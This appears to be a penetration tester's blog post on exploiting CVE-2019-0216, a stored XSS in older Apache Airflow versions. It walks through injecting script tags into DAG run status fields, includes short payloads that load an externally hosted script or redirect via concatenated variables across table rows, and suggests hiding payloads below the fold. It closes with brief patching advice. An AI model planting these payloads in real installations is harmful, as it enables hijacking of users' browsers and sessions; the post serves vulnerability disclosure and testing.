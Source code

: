 ```yaml
---
layout: post
title:  "CVE-2019-0216: Stored XSS in Apache Airflow"
toc: true
date:   2020-06-16
categories: network-pentest
---
```


# Motivation 

A while back I (and several other researchers concurrently) reported CVE-2019-0216 to Apache -- a stored XSS in Apache Airflow. Airflow is a workflow orchestration platform, and isn't uncommon to come across on an engagement. If you find an older installation there is a fun opportunity for getting stored XSS.


# Prerequisites

If the installation is out-of-date (< 1.10.3 according to Apache), it is theoretically vulnerable (though I can't currently reproduce against manual out-of-date installs from PyPI due to some severe dependency drift). In any case, Airflow suffered from this vulnerability in late February 2019 when it was reported to Apache.

Additionally, the CVE describes the vuln as being possibly exploited by a 'malicious admin', which is technically true, however auth is disabled by default. So if auth has been enabled, you'll need credentials to perform the attack.


# Exploiting

Visit the `/admin/dagrun/` endpoint (by default not password protected). 

If there aren't a few "DAG runs" listed, create a few, giving them any ID, and leave the state as 'running'.

![](/screens/airflow-bogus-ids.png)

Back on the listing screen, you'll notice that you can click on the 'running' status indicator and input HTML. 

![](/screens/airflow-inject-script.png)

The input is limited to 50 characters, which I believe was intended as an XSS defense, however this is easily overcome.

If you own a short domain, you can use the protocol inheritance and a short script name to just directly include your payload. Something like:

```
<script src="//127.0.0.1/j.js"></script>
```

Or, using variables, string concatenation, etc., you can glue a script together in separate rows of the table.

A simple example would be something like:

```
<script>_a="https://b4ny4n.github.io"</script>
```

... and then

```
<script>document.location=_a</script> 
```

As you save the rows, they're properly escaped into the page:

![](/screens/airflow-pre-render.png)

But on a fresh load of the page the content will be directly injected into the DOM:

![](/screens/airflow-output.png)

At this point you can drop your favorite xss payload. Depending on the state of the airflow installation (there could be many, many DAGs) you can also hide your payloads throughout rows below the page fold to be less obvious.

# If You're Defending

These kinds of issues are best prevented by a good scanning + patching cadence and basic password hygiene (like enabling authentication, and requiring strong passwords). 
